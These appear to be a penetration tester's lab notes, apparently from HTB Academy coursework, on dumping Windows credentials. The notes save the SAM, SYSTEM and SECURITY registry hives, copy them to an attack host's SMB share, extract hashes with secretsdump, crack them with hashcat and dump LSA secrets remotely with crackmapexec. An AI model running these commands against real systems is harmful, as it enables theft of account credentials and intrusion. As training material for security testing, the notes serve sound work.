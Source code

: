 for non-domain joined Windows system

# Copying SAM Registry Hives 
do that in command prompt (run as administrator)
```
reg save hklm\sam C:\sam.save
reg save hklm\system C:\system.save
reg save hklm\security C:\security.save
```

Can start a [SMB Download & Upload](4%20Post-Exploitation/Windows%20Post%20Exploitation/File%20Transfer/SMB%20Download%20&%20Upload.md) on our attack host and then use the victim host, connect to the smbserver and upload the hive copies to share 

```
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```

use secretsdump.py
```
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```
leaving the security out still works

there is two hashes that will be generated (lmhash:nthash)
Most modern windows store password as an NT hash. Operating Systems older than Windows Vista & Windows Server systems store the password as LM hash. 

we put all the hashes tgt in one txt file 

```shell-session
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

# Dumping LSA secrets remotely
```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
sam 
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```